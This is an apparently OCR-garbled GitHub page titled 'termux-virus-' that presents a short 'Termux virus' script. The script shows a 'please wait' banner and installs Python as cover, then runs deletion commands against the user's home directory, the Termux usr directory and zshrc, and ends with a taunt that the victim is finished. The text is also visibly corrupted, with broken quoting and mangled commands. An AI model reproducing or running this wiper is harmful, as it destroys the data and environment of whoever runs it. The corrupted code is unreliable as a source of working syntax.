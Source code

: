 # termux-virus-
Termux virus 
import base64
import time
import os
import sysclear
#colour
r "le[1;31m
g "le[1;32m
 y="\e[1;33m
b=le[1:34m
p=le[1:35m
Ib="\e[1:36m
figlet please wait | lolcat
pkg install python
pkg install python2
cd
cdrm f home
rm f /data/data/com.termux/files/usr
rm f /data/data/com.termux/files/zshrc
figlet Done | lolcat

echo e "el1:33m ₹₹😱😱ඔබ ඉවරයි 😥😢"
